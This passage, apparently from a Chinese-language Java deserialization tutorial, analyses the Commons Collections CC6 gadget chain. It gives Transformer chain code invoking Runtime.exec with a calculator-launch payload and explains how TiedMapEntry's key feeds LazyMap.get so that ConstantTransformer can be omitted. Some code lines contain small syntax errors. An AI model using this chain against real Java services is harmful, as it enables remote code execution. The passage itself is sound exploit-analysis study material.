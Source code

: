 而实际上这里当get()方法参数可控时我们是可以不需要ConstantTransformer的：

```java
ChainedTransformer chainedTransformer1 = new ChainedTransformer(new Transformer[]{
          new ConstantTransformer(Runtime.class),
          new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[ {"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
chainedTransformer1.transform("123");
                                                                                                 
等价于：
                                                                                                 
ChainedTransformer chainedTransformer2 = new ChainedTransformer(new Transformer[]{
          new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[ {"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})}); HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(hashMap, chainedTransformer2);
lazymap.get(Runtime.class);                                                                                   
```

而我们追根溯源，CC6中lazymap的参数来源于TiedMapEntry传递的第二个参数（在我们原有POC中为'a'）：

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;   
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }

    public Object getKey() {
        return key;
    }

    public Object getValue() {
        return map.get(key);
    }
    
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
}
```
